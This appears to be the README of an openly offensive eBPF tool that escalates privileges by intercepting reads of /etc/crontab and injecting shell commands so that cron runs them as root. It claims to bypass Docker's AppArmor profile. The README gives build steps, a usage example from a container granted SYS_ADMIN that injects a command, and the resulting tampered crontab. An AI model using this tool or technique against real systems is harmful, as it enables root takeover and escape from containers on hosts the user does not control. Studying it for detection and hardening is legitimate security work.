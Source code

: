 # obie-trice-conjob

> _"And Moby, you can get stomped by Obie"_ -Eminem

libbpf/bpf_load-based raw tracepoint eBPF privesc payload that intercepts reads
for `/etc/crontab` to inject arbitrary shell commands into the data read back
by user space. Because it uses the raw tracepoint API, it does not rely on
sysfs (`/sys/**`) and is therefore not blocked by Docker's AppArmor profile.

***Note:*** The build toolchain is a slightly modified version of the one from
[xdp-project/xdp-tutorial](https://github.com/xdp-project/xdp-tutorial).
Additionally, `common/bpf_load.{c,h}` are sourced from
[`linux/samples/bpf`](https://github.com/torvalds/linux/tree/master/samples/bpf).

## Dependencies

```bash
# on Ubuntu 18.04
$ sudo apt-get install build-essential clang llvm git libelf-dev xxd
```

## Usage

```bash
$ git submodule update # pulls in libbpf/
$ make
$ file conjob
conjob: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=fbefdcf7c3c9263cf6fa7d132304e2593787baa8, stripped
$ sudo docker run -it --cap-add SYS_ADMIN -v $(pwd):/tmp:ro alpine:latest sh  
/ # /tmp/conjob '( echo "# id" ; id ) > /tmp/conjob'
loaded...

```

```bash
$ cat /etc/crontab
SHELL=/bin/sh
* * * * * root ( echo "# id" ; id ) > /tmp/conjob
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
###############################################################################
#########################
```
